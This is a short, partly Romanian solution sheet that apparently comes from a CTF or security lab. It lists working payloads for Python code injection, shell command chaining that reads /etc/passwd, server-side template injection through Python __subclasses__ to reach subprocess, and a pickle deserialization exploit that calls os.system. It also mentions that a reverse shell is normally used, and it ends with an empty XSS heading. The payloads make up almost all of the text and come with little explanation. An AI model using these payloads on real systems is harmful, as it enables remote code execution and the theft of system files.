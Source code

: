 Python2.
Rezolvare:

1.Python code injection
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution
test || cat /etc/passwd (ex)

3.Template injection
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[247]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)

5. xss
